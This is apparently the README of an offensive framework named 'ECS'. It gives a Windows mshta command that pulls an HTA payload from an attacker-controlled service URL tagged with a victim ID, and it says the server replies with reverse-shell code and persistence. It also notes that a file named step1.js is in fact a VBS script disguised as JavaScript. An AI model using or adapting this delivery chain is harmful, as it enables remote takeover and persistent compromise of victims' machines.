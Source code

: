 # ECS
![](./ECC.png)

## \color{red} step1:        

 <span style="color:blue"> victim exec the malware or rce on victim : </span>
#### <span style="color:blue"> For windows:  </span>
```powershell  
mshta https://< ecs service url >?uid=< victim uid >&s=1< step number in this > 
``` 
## <span style="color:blue"> step 2 </span>
<span style="color:blue"> server response to victim the reversshell code and persistant acts and make main persist malware
acuatlly the file in path ecs/statics/js/step1.js is not javascript in truth its vbs script file and main html project is hta app  </span>



